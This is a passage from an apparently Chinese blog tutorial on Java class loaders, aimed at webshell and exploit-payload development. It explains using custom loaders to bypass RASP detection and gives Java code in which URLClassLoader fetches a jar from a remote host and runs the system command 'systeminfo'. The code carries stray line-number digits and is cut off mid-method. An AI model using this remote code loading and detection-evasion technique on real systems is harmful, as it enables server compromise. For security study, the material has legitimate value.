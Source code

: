 ```
        }      3
    }      3
}
```




运行结果：



![](https://img-blog.csdnimg.cn/20200705222346372.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的[native](https://so.csdn.net/so/search?q=native&spm=1001.2101.3001.7020)方法绕过RASP检测，也可以用于加密重要的Java类字节码(只能算弱加密了)。



注：这里TestClassLoader类的字节数组转换可以参考：[Java中对象和字节数组互转](https://xie1997.blog.csdn.net/article/details/107021477)



### URLClassLoader



`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程jar文件来实现远程的类方法调用。



我们先创建Project3，然后新建 TestURLClassLoader.java 文件



![](https://img-blog.csdnimg.cn/20200706182104520.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**TestURLClassLoader.java内容如下：**



```
package com.company;       
import java.io.ByteArrayOutputStream;      
import java.io.InputStream;      
import java.net.URL;      
import java.net.URLClassLoader;      
public class TestURLClassLoader {      
    public static void main(String[] args) {      
        try {      1
            // 定义远程加载的jar路径      1
            URL url = new URL("http://xxx/Project4.jar");      1
            // 创建URLClassLoader对象，并加载远程jar包      1
            URLClassLoader ucl = new URLClassLoader(new URL[]{url});      1
            // 定义需要执行的系统命令      1
            String cmd = "systeminfo";      1
            // 通过URLClassLoader加载远程jar包中的cmd类      1
            Class cmdClass = ucl.loadClass("cmd");      1
            // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");      1
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);      2
            // 获取命令执行结果的输入流      2
            InputStream           in   = process.getInputStream();      2
            ByteArrayOutputStream baos = new ByteArrayOutputStream();      2
            byte[]                b    = new byte[1024];      2
            int                   a    = -1;      2
            // 读取命令执行结果      2
            while ((a = in.read(b)) != -1) {      2
                baos.write(b, 0, a);      2
```
